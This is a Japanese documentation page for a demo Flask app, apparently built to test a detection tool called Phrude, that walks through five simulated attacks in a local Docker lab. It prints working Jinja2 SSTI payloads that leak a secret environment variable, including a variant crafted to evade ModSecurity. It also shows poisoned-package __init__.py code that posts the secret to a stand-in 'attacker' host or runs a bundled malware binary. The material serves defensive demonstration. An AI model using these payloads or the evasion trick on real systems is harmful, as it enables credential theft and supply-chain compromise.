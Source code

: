 ```yaml
---
sidebar_position: 4
---
```


# デモ用Webアプリの解説

Phrudeの検証で用いたPython Flask製のデモ用Webアプリを <https://github.com/phrude/flask-demoapp> で公開しています。

Webアプリに任意の処理を挿入する攻撃のうち、外部からのHTTPリクエスト経由の攻撃としてSSTI、内部からの攻撃として汚染ライブラリの混入(Pythonのコードで攻撃処理が記述されているもの・マルウェアバイナリを実行するもの)が実装されています。

## Setup

動作させるためには

- [Docker](https://docs.docker.com/)
- [Docker Compose](https://docs.docker.com/compose/)

をインストールしてください

DockerおよびDocker Composeをインストール後、`docker compose up -d`コマンドで

- <http://localhost:8080> Python Flask製のデモ用Webアプリ
- <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したPython Flask製のデモ用Webアプリ
- <http://localhost:8082> 攻撃の実行時に流出させた情報を受け取る、攻撃者の模擬サーバー

が起動します。

## 擬似的な攻撃の実行

以下の5つの擬似的な攻撃を実行することができます。

### 1. 外部からのHTTPリクエスト経由の攻撃

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8080/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8080> デモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

この`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`は環境変数に格納されている秘密の鍵で、もしこの鍵がクラウドのリソースへアクセスするためのものである場合、このような攻撃による流出によってクラウドのリソースの不正な使用や情報流出に繋がります。

### 2. WAFに検知される外部からのHTTPリクエスト経由の攻撃

先程のデモ用WebアプリにオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したもので同じように

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{request.application.__globals__.__builtins__.__import__('os').getenv('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

`403 Forbidden`エラーが画面に表示されます。

WAFはHTTPリクエストの文字列に含まれる、攻撃に特有の文字列を見つけることでそのHTTPリクエストが攻撃であるかを判断します。

`docker logs flask-demoapp-modsecurity-1`コマンドでオープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)のログを確認すると`PHP Injection Attack: High-Risk PHP Function Call Found`というルールに抵触し、攻撃であると判断されたことが分かります。

### 3. WAFの検知を回避した外部からのHTTPリクエスト経由の攻撃

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避するよう細工した攻撃文字列を送信します

以下のようなcurlコマンドの実行

```
curl -X POST http://localhost:8081/ssti -d name="{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}"
```

もしくは <http://localhost:8081> オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)を適用し保護したデモ用Webアプリに

```
{{(request.application.__globals__.__builtins__.__import__('os')|attr('ge'+'tenv')).__call__('CLOUD_SECRET_KEY')}}
```

を入力し`Send`ボタンをクリックしてください。

画面に `Hello wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY.`と表示されます。

オープンソースのWAF [ModSecurity](https://github.com/SpiderLabs/ModSecurity)の検知を回避し、環境変数に格納されている秘密の鍵`wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`を流出させることができました。

### 4. Pythonのコードで攻撃処理が記述されている汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリstealer_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import os
    import requests

    # Get an environment variable
    secret = os.getenv("CLOUD_SECRET_KEY")
    requests.post("http://attacker/", data={"CLOUD_SECRET_KEY": secret})
except:
    pass
```

ここではgetenv関数で環境変数に格納されている秘密の鍵を取得し、外部のサーバー`http://attacker/`へ送信しています。

ライブラリstealer_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/stealer
```

もしくは <http://localhost:8081/stealer> へブラウザでアクセスしてください。

画面に `Stealer demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリstealer_package内の不審な処理が実行され、秘密の鍵が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'CLOUD_SECRET_KEY': 'wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY'}]
```

と秘密の鍵が攻撃者の手に渡っていることが確認できます。

### 5. マルウェアバイナリを実行する汚染ライブラリの混入による攻撃

このデモ用Webアプリが導入しているライブラリmalware_packageでは`__init__.py`ファイルに不審な処理が記述されています。

```python
try:
    import subprocess
    import os

    # Run malware
    subprocess.Popen(
        os.path.join(os.path.dirname(os.path.abspath(__file__)), "malware"),
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
        stdin=subprocess.DEVNULL,
    )
except:
    pass
```

ここではパッケージに同梱された実行可能ファイル`malware`を実行しています。

ライブラリmalware_packageで提供されている機能を使う処理を実行します。

以下のようなcurlコマンドの実行

```
curl http://localhost:8081/malware
```

もしくは <http://localhost:8081/malware> へブラウザでアクセスしてください。

画面に `Malware demo is executed`と表示されます。

このとき、デモ用Webアプリが導入しているライブラリmalware_package内の不審な処理が実行され、実行可能ファイル`malware`によってホスト名が攻撃者のサーバー`http://attacker/`に送信され流出しました。

攻撃者の模擬サーバー <http://localhost:8082> を確認すると

```
[{'hostname': '2c2c289ce392'}]
```

とホスト名が攻撃者の手に渡っていることが確認できます。

このようなマルウェアの実行では、Phrudeではsubprocessパッケージにより実行可能ファイルが実行されたことのみが検知できますが、システムコールによる検知ツールを使うことで実行可能ファイルがどのような処理をしたのかを把握することができます。
